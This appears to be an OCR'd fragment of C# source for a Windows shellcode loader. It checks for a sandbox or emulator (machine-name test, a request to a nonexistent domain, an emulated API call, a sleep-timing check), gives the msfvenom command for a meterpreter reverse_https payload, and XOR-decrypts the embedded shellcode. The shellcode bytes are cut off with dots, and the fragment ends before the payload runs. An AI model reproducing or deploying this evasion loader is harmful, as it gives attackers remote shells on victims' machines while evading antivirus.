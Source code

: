                 //Machine name check:
                if (Environment.MachineName != "DEVELOPMENT" && Environment.MachineName != "VICTIM")
                {
                    Console.WriteLine(Environment.MachineName);
                    return;
                }

                //Web request to fake domain check:
                try
                {
                    HttpWebRequest req = (HttpWebRequest)WebRequest.Create("http://sldkfjsdkfjdskfjsldkfjlsdjfyyue.com/");
                    HttpWebResponse res = (HttpWebResponse)req.GetResponse();
                    if (res.StatusCode == HttpStatusCode.OK)
                    {
                        return;
                    }
                }
                catch (WebException we)
                {
                    Console.WriteLine("\r\nWeb Exception as Expected. Error: {0}", we.Status);
                }

                //Another emulated API check:
                IntPtr ptrCheck = FlsAlloc(IntPtr.Zero);
                if (ptrCheck == null)
                {
                    return;
                }

                // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
                var rand = new Random();
                uint dream = (uint)rand.Next(10000, 20000);
                double delta = dream / 1000 - 0.5;
                DateTime before = DateTime.Now;
                Sleep(dream);
                if (DateTime.Now.Subtract(before).TotalSeconds < delta)
                {
                    Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                    return;
                }

                // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
                byte[] buf = new byte[644] {0x9d,0x29,0xe2,0x85,0x91,0x89,.........................

                // XOR-decrypt the shellcode
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(buf[i] ^ (byte)'a');
                }

                int bufLength = buf.Length;
                UInt32 uBufLength = (UInt32)bufLength;
